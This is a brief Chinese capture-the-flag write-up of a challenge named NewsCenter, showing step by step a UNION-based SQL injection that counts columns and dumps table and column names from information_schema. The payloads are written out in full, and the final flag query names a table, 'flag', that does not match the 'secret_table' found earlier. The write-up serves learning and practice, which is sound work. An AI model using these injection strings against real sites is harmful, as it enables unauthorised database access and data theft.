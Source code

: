 ## 2021-9-2NewsCenter
#SQL注入 
![[../attaches/Pasted image 20210902002713.png]]
尝试单引号后显示错误界面即存在注入点
1. 测列数
`1' and 0 union select 1,2,3 # `分别尝试1，2，3前两个报错，第三个成功显示
![[../attaches/Pasted image 20210902002955.png]]
即共有三列
2. 爆表名
`1' and 0 union select 1,TABLE_SCHEMA,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS # `
![[../attaches/Pasted image 20210902004030.png]]
得到表名secret_table
3. 爆列名
`1' and 0 union select 1,column_name,data_type from information_schema.columns where table_name='secret_table'# `
![[../attaches/Pasted image 20210902004515.png]]
4. 拿flag

1' and 0 union select 1,column_name,column_name from information_schema.columns where table_name='flag'#